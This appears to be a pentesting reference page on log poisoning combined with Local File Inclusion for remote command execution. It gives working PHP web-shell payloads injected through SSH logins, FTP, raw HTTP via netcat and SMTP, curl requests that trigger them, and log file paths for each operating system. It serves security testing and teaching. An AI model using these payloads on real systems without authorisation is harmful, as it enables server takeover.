 

# Theory

A technique for executing arbitrary commands on a web server. Its usually used in conjunction with other techniques like Local File Inclusion (LFI).

The idea is to manipulate logh files that the server writes, and writes to, and then use other vulnerabilities to exploit these files.

When you want to inject malicious code into these log files, you would typically capture the requests made by the site, and then modify the User-Agent, Referrer or even error messages.

If the webapp is vulnerable to LFI, we can include the log file in the response. Since the injected code is in the log file, it gets executed when the file is processed by the system.

# Testing

Log files may be stored in different locations depending on the operating system/distribution.

## /var/log/auth.log

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

## /var/log/vsftpd.log

When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and sending a payload (depending on which web technology is used).

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```

## /var/log/apache2/access.log

When the web application is using an Apache 2 server, the `access.log` may be accessible using an LFI.

-   About `access.log`: records all requests processed by the server.
-   About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `access.log` path and file depending on the operating system/distribution:

-   RHEL / Red Hat / CentOS / Fedora Linux Apache access file location: `/var/log/httpd/access_log`
-   Debian / Ubuntu Linux Apache access log file location: `/var/log/apache2`/access.log
-   FreeBSD Apache access log file location: `/var/log/httpd-access.log`
-   Windows Apache access log file location: \*\*\*\* `C:\xampp\apache\logs`

Or if the web server is under Nginx :

-   Linux Nginx access log file location: `/var/log/nginx/access.log`
-   Windows Nginx access log file location: `C:\nginx\log`

## /var/log/apache/error.log

This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

-   About `error.log`: records any errors encountered in processing requests.
-   About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `error.log` path and file depending on the operating system/distribution:

-   RHEL / Red Hat / CentOS / Fedora Linux Apache error file location: `/var/log/httpd/error_log`
-   Debian / Ubuntu Linux Apache error log file location: `/var/log/apache2/error.log`
-   FreeBSD Apache error log file location: `/var/log/httpd-error.log`
-   Windows Apache access log file location: \*\*\*\* `C:\xampp\apache\logs`

Or if the web server is under Nginx :

-   Linux Nginx access log file location: `/var/log/nginx`
-   Windows Nginx access log file location: `C:\nginx\log`

# /var/log/mail.log

When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=/var/log/mail.log&cmd=id"
```

# References

https://knowledge.complexsecurity.io/security/logp/
https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning